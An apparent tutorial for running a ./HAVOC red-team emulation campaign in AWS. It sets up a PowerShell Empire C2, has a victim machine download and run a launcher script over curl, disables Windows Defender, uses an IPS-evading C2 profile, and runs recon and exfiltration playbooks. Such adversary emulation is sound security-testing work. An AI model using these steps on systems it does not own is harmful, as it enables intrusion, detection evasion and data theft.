










# Running a ./HAVOC Campaign

## Overview

Once the campaign is in place, attack operations are conducted through playbooks. In some cases, a playbook may provision infrastructure needed by the attack operation. In other cases, an attack operation playbook may rely on infrastructure provisioned previously by a separate playbook. Playbooks are configured and executed at the command line. As such, running multiple playbooks will require multiple terminal sessions.

A ./HAVOC campaign can also be accessed in a more manual fashion via the ./HAVOC CLI, which provides the ability to create, view, interact with, and delete ./HAVOC resources.


## Connect Multiple Terminals to Your Campaign Manager

Executing playbooks in ./HAVOC is done via configurable playbooks on your Campaign Manager.  A ./HAVOC campaign comes with several pre-built playbooks that allow you to emulate attacker TTPs in a target environment. To maximize the value of emulating attacker TTPs, ./HAVOC playbooks should be executed in a manner that is consistent with a real-world attack kill chain.  Additionally, ./HAVOC playbooks can be dependent on other playbooks; for example, the recon, lateral movement and exfil playbooks are depenedent on the **c2_and_http_server** playbook.

The recommended order for executing ./HAVOC playbooks to emulate attack behavior is as follows:


- **c2_and_http_server**
- **pse_host_recon**
- **pse_network_recon**
- **simple_exfil**

Generally, these playbooks would be executed against a target environment with a full Active Directory Domain and accompanying infrastructure. For the purposes of this lab, we will need at least two Windows workstations to use as "victim" machines and it will be expected that the information retrieved from the pse_network_recon playbook will be sparse.

In order to prepare for playbook execution on your ./HAVOC **Campaign Manager**, complete the following steps.


**Reminder:** If you use an EC2 instance as your **Campaign Manager**, make sure to perform all of your ./HAVOC deployment and playbook operation tasks through a **tmux** session or you'll run the risk of having an incomplete deployment or orphaned resources as a result of being disconnected from your SSH session (SSH sessions to EC2 instances get disconnected frequently). You can find a **tmux** cheat sheet here: [Tmux Cheat Sheet & Quick Reference](http://tmuxcheatsheet.com/)



1.  Open three terminal windows and SSH to your **Campaign Manager** to be used as follows:

    - **Terminal 1** - ./HAVOC CLI
    - **Terminal 2** - **c2_and_http_server** playbook
    - **Terminal 3** - **pse_host_recon**, **pse_network_recon**, **simple_exfil playbooks**
    <br>
    <br>

2.  In **Terminal 1** setup a tmux session with the name **CLI**:

    ```
    tmux new -t CLI
    ```

3.  In **Terminal 2**, setup a tmux session with the name **c2_and_http_server**:

    ```
    tmux new -t c2_and_http_server
    ```

4.  In **Terminal 3**, setup a tmux session with the name **secondary_playbooks**:

    ```
    tmux new -t secondary_playbooks
    ```


## Initiate and Get Acquainted with the ./HAVOC CLI

1.  In **Terminal 1**, execute the ./HAVOC CLI with the following commands:

    ```
    cd ~/havoc
    ./havoc
    ```

2.  Now that the ./HAVOC CLI is running, execute a few commands just to get familiar with the CLI:

    ```
    list_tasks
    ```
    
    Shows status of current ./HAVOC container tasks.

    ```
    list_portgroups
    ```

    Shows information about firewall rules allowing acess to the ./HAVOC container tasks.

    ```
    list_files
    ```

    Shows information about files that have been shared between container tasks.

    
    **Note:** The commands above will return without any tasks, portgroups or files because you haven’t created any yet. We’ll come back to these commands later.
    

3.  Note that you also have a **help** command available that provides a list of all commands and details about each individual command:

    ```
    help
    ```

    Shows all available commands within the ./HAVOC CLI.

    ```
    help task_shutdown
    ```

    Shows information about a specific command, in this case **task_shutdown**.


##  Establishing Initial C2

The **c2_and_http_server** playbook will create a containerized Powershell Empire task, C2 listener, and C2 implant (also called a stager or launcher) in your ./HAVOC campaign deployment. For this lab, we recommend that you setup two "victim" Windows workstations in your AWS account. One victim machine will run the C2 implant and connect back to the PowerShell Empire container's C2 listener and the other victim machine will be a recon target. You can refer to these [intructions](https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/EC2_GetStarted.html) for creating the Windows EC2 instances but use the t3.medium instance type instead of the recommended t2.micro as stated in the guide (note that you can specify the number of instances to create as "2" in the upper right-hand corner of the Launch an instance page so that you don't have to go through the launch an instance process twice). The **c2_and_http_server** playbook will provide an oppportunity to establish which IPs and ports the C2 listener will be accessible from (more details on this below).  This playbook must remain running for the duration other playbooks run, as they will be run through this C2 connection.


**Note:** The **c2_and_http_server** playbook consumes resources in your AWS account so make sure to enter Ctrl-C in the terminal window for the **c2_and_http_server** playbook to initiate the teardown of resources after you have finished executing the other playbooks.


###  Run c2_and_http_server Playbook

1.  In **Terminal 2**, configure the **c2_and_http_server** playbook:

    ```
    cd ~/havoc
    ./havoc -c
    ```

2.  When prompted to select a playbook to configure, enter the number associated with the **c2_and_http_server** playbook, and press **enter** > enter **y** to continue > press **enter**.

    

3.  For the **c2_listener** parameters, accept all the defaults except the following:
    
    - **listener_profile** - trevor
    <br>
    <br>

    
    **Note:** The **listener_profile** parameter provides the ability to specify a malleable C2 profile if the **listener_type** parameter is set to **http_malleable**. Malleable C2 profiles allow the C2 server to adjust the communications between the C2 agent and listener for evasion purposes.
    To date, the "trevor" profile has been effective at evading signature-based detections from Intrusion Prevention Systems.
    


    

4.  For the **c2_stager** and **http_server** parameters, accept all the default parameters.

    

5.  For the **client_ip** parameter in the **c2_client** section, specify the following:

    - **client_ip parameter** - This should be the egress (public) IP of your victim workstation. You can obtain the public IP address for your victim workstation from the AWS EC2 web console or, you can obtain its IP address by connecting to the system via RDP and browsing to [https://ifconfig.io](https://ifconfig.io).
    <br>
    <br>

    
    **Note:** One of the many benefits the ./HAVOC platform provides is the ability to run production attacker infrastructure in a secure manner. For instance, the C2 server associated with this playbook is running in AWS with a public IP address and it’s helpful to restrict access to the C2 listener to only the clients you intend to have connecting to it. Your ./HAVOC campaign can deploy portgroups that restrict access to ./HAVOC resources for exactly that purpose. The **c2_and_http_server** playbook uses the **client_ip** parameter to determine which IP addresses to allow to communicate with the C2 listener and HTTP server. The **client_ip** parameter can accept a single IP address, or a comma separated list of multiple IP addresses but they all have to be entered in CIDR notation.
    

    

    
    **Note:** At this point, the playbook configuration will attempt to install any necessary Python dependencies needed by the playbook and then drop back to the shell prompt. You may see several messages indicating “Requirement already satisfied.” These messages can be safely ignored.
    

6. Now the c2_and_http_server playbook can be executed using the following command:

    ```
    ./havoc -e c2_and_http_server
    ```

7. When the playbook is ready for a C2 agent connection, you will see output that looks like this:

    

8. Now that you’ve provisioned some ./HAVOC resources, go back to the ./HAVOC CLI in Terminal 1 and run the following commands again:

    ```
    list_tasks
    list_portgroups
    list_files
    ```

9. This time, the commands should return a listing of associated resources.

    

10. You can get additional details about the running tasks using the **get_task** command as follows:

    ```
    get_task -–task_name=<task_name>
    ```

11. You can get additional details about portgroups via the **get_portgroup** command:

    ```
    get_portgroup --portgroup_name=<portgroup_name>
    ```

###  Initiate C2 from your victim machine

This step could be accomplished by an attacker in a number of ways.  For lab and testing purposes, we're going to download the C2 launcher directly and run it, but in the real world, the attacker may embed it into a Macro, leveraging phishing or social engineering methods, or any number of other ways to convince a user to run the C2 launcher. It is also expected that a sophisticated threat actor will find ways to bypass/evade the local anti-virus/EDR on the victim machine. See the note below for more details.


**Note:** PowerShell Empire (the C2 framework used by ./HAVOC in this playbook) is a well-known C2 framework that will trigger anti-virus/EDR protections. Evading anti-virus/EDR is out of the scope of this lab so, you will need to disable Windows Defender on your victim Windows machine in order for the C2 launcher to execute. You can find instructions for disabling Windows Defender here: [Turn off Defender antivirus protection in Windows Security](https://support.microsoft.com/en-us/windows/turn-off-defender-antivirus-protection-in-windows-security-99e6004f-c54c-8509-773c-a4d776b77960)


1.  Use an RDP client to connect to your victim Windows machine.

2.  Once you are into the Desktop, open a PowerShell terminal and cd to the C:\Users\\*username*\Documents directory:
    
      

3.  Copy the **HTTP Server URL** from **Terminal 2**:

    

4.  Run a curl command to dowload the stager file by replacing the <url_to_launcher_file> value in the command below with the **HTTP Server URL** copied in the previous step (make sure to fully qualify the path to curl.exe or the command will not work):

    ```
    c:\windows\system32\curl.exe -k -O <url_to_launcher_file>
    ```
    
    

5.  Execute the launcher.ps1 script in the PowerShell window:

    ```
    .\launcher.ps1
    ```
    
    
    
    
    **Note:** When the script executes, it will not return a PowerShell prompt. This is expected behavior.
    

6.  Now go back to the **Terminal 2** window on your Ubuntu VM. When the C2 agent connects, you will see output from the **c2_and_http_server** playbook that looks like this:

    

7.  Now that you have an agent connected, you can move to **Terminal 3** to configure and run the remaining playbooks.

##  Performing Local Recon

The recon and exfil playbooks must be executed one playbook at a time. You can execute them in any order, but they cannot run simultaneously because the C2 task can only operate on one command at a time.


**Note:** Running two playbooks at once will lead to command collisions.


The **pse_*_recon** playbooks are setup to require minimal configuration. There are many configurable parameters available in these playbooks, but for the most part, the default settings can be accepted.

###  Run pse_host_recon Playbook

The **pse_host_recon** playbook is intended to emulate steps an attacker may take when performing initial recon of a host which has connected through an established C2 channel.  This is for the attacker to orient themselves within the environment -- learning about local IP configuration, antivirus presence (if any), mounted shares, routes, etc. can provide an attacker with considerable intel about an environment they have an established C2 connection from.

./HAVOC will automate these steps through the **pse_host_recon** playbook.

The following parameters must be set in the **pse_host_recon playbook** (all other parameters can be left with default settings):

- **[c2_task]**
    - **task_name** - This should be set to the name of the C2 server task that your active agent is connected to.
    - **agent_name** - This should be the unique name associated with your active C2 agent.

1.  In **Terminal 3**, configure the **pse_host_recon** playbook:

    ```
    cd havoc
    ./havoc -c
    ```

2.  When prompted enter the number associated with the **pse_host_recon** playbook, and press **enter** > enter **y** to continue > press **enter**.

3.  Update **c2_task** parameters with the info mentioned above.  These can be found in the C2 information in **Terminal 2**.

4.  Execute this playbook with the following command:

    ```
    ./havoc -e pse_host_recon
    ```

**Note:** This playbook runs through several steps in Powershell Empire, and may take several minutes to complete.



###  Run pse_network_recon Playbook

The **pse_network_recon** playbook is intended to emulate steps an attacker may take after performing host recon, mostly to understand more about the local network they have access to.  This includes steps such as performing port scans against network ranges within the environment and Bloodhound scans against an Active Directory Domain.

The following parameters must be set in the **pse_network_recon** playbook (all other parameters can be left with default settings - the bloodhound module will run as the currently logged-in user, so the domain and credential settings are not needed):

- **[c2_task]**
    - **task_name** - This should be set to the name of the C2 server task that your active agent is connected to.
    - **agent_name** - This should be the unique name associated with your active C2 agent.

- **[portscan]**
    - **Hosts** - For this lab, you can use the private IP address of your second Windows workstation. (You would typically set this to the CIDR range you would like to perform the port scan for).
    - **Ports** - For this lab, use 1-1024 (Set this to the port range you would like to scan).

- **[reverse_dns]**
    - **CIDR** - For this lab, you can use the IP address of your second Windows workstation followed by /32, e.g. 172.31.15.44/32 (You would typically set this to the CIDR range you would like to perform reverse DNS lookups for).

1.  In **Terminal 3**, configure the **pse_network_recon** playbook:

    ```
    ./havoc -c
    ```

2.  When prompted enter the number associated with the **pse_network_recon** playbook, and press **enter** > enter **y** to continue > press **enter**.

3.  Update **c2_task**, **portscan**, and **reverse_dns** parameters with the info mentioned above (From **Terminal 2** window).

4.  Execute this playbook with the following command:

    ```
    ./havoc -e pse_network_recon
    ```

    
    **Note:** This playbook may appear to get "stuck." Port scans run from a C2 connection like the one established through Powershell Empire with the ./HAVOC C2 module can take a while to complete.  If no results are returned, wait 10-15 minutes before hitting **Ctrl-C** to end playbook execution.
    


## Perform Simple Exfiltration

The **simple_exfil** playbook is designed to mimic actions an attacker may take when perforing volumetric exfiltration of data which has been gathered from the network they have established access within.  This would be an attempt to get the data out as fast as possible vs. a slower exfiltration which may fly more under the radar.  Still a valid technique, however, as occasionally speed is important for an attacker's objectives. For this playbook, the data being exfiltrated is generated from a sequence of text characters on the fly as part of the playbook operation. No real sensitive data is sent out of the network.

The **simple_exfil** playbooks are setup to require minimal configuration. There are many configurable parameters available in these playbooks, but for the most part, the default settings can be accepted.

The following parameters must be set in the **simple_exfil** playbook (all other parameters can be left with default settings):

- **[c2_task]**
    - **task_name** - This should be set to the name of the C2 server task that your active agent is connected to.
    - **agent_name** - This should be the unique name associated with your active C2 agent.

1.  In **Terminal 3**, configure the **simple_exfil** playbook:

    ```
    ./havoc -c
    ```

2.  When prompted enter the number associated with the **simple_exfil** playbook, and press **enter** > enter **y** to continue > press **enter**.

3.  Update **c2_task** parameters with the info mentioned above (From **Terminal 2** window).

4.  To execute this playbook, run the following command:

    ```
    ./havoc -e simple_exfil
    ```
    
    
    **Note:** The exfil_size parameter should not exceed 1000 (1GB). This is a current size limitation that will be addressed in a future ./HAVOC release.
    


## Gathering Final Report Data

The **activity_report** playbook will gather all actions performed against any of the given tasks and print the details to the screen. This allows you to retrieve a record of every request and corresponding response associated with the playbooks you executed, which may be useful for a final report.

The following parameters must be set in the activity_report playbook:

- **[activity_report]**
    - **tasks** - This should be a **comma separated** list of task names associated with the activity to be retrieved.
    - **start_time** - Provide a start time timestamp that references a time prior to when you began running playbooks, e.g. **11/19/2022 00:00:00**.
    - **end_time** - Provide an end time timestamp that references a time after you finished running playbooks, e.g. **11/19/2022 23:59:59**.
    <br>
    <br>
    

**Note:** The values for **tasks** above can be grabbed from **Terminal 1** by using the **list_tasks** command.


1.  In **Terminal 3**, configure the **activity_report** playbook:

    ```
    ./havoc -c
    ```

2.  When prompted enter the number associated with the **activity_report** playbook, and press **enter** > enter **y** to continue > press **enter**.

3.  Update **c2_task** parameters with the info mentioned above.

4.  To execute this playbook, run the following command:

    ```
    ./havoc -e activity_report
    ```


## Cleanup

1.  After you’re finished running all the playbooks, go back to **Terminal 2** and press `Ctrl-C` to initiate the shutdown process for the C2 listener.

2.  Go to the RDP session for your victim Windows machine and press `Ctrl-C` in the PowerShell terminal where you executed the launcher.ps1 file, which will terminate the launcher process on the victim. 

3.  After the **c2_and_http_server** playbook shutdown is complete, you can run the following commands to make sure that all of resources have been terminated/deleted:

     ```
    list_tasks
    list_portgroups
    list_files
    ```

4.  If you would like to completely destroy your ./HAVOC campaign, exit the ./HAVOC CLI in **Terminal 1** by typing **exit** and execute the campaign removal command (see the note below before running this command):

    ```
    ./havoc -r aws
    ```

    > **Note:** 
    > The campaign removal will fail if there are any existing tasks, portgroups or files still present in your deployment. If your **c2_and_http_server** playbook did not terminate cleanly, you can manually remove any remaining ./HAVOC resources by following the instructions in the **Manual Cleanup** section below. Make sure to remove any orphaned resources  prior to running the campaign removal command.
    


## Manual Cleanup

In **Terminal 1**, perform the following steps to make sure that all orphaned resources have been terminated/removed.

1.  Use the **list_tasks** commands to get a list of all running tasks:

    ```
    list_tasks
    ```

2.  Use the **kill_task** command to terminate each running task listed in the previous step:

    ```
    kill_task --task_name=<task_name>
    ```

3.  Use the **list_portgroups** command to get a list of orphaned playbooks:

    ```
    list_portgroups
    ```

4.  Use the **delete_portgroup** command to delete each portgroup listed in the previous step:

    ```
    delete_portgroup --portgroup_name=<portgroup_name>
    ```

5.  Use the **list_files** command to get a list of orphaned files:

    ```
    list_files
    ```

6.  Use the **delete_file** command to delete each file listed in the previous step:

    ```
    delete_file --file_name=<file_name>
    ```

Once all of the orphaned resources have been removed, you can proceed with the campaign removal. Exit the ./HAVOC CLI in **Terminal 1** by typing **exit** and execute the campaign removal command:

```
./havoc -r aws
```

